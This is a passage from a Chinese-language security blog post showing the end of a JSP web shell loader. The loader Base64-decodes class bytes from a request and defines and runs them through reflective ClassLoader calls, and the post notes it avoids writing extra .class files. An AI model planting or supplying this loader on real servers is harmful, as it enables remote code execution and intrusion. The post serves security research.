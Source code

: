 ```
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            str = (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, cls);
        }
        Method d= ClassLoader.class.getDeclaredMethod("defineClass",byte[].class, int.class, int.class);
        d.setAccessible(true);
        Constructor c = SecureClassLoader.class.getDeclaredConstructor(ClassLoader.class);
        c.setAccessible(true);
        ClassLoader sysloader = this.getClass().getClassLoader();
        ClassLoader loader =(ClassLoader)c.newInstance(sysloader);
        Class result = (Class)d.invoke(loader,str,0,str.length);
        result.newInstance().equals(pageContext);
    }
    else{
        response.sendError(404);
    }
%>
```

通过Web访问后生成以下文件：

- _test4_jsp.java
- _test4_jsp.class

在代码实现上需要注意Java语言中数组必须先初始化，然后才可以使用

## 0x04 小结
---

本文分享了一种不额外生成.class文件的实现方法，对于开源的代码test4.jsp，还可以应用到Java文件的编写中。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)






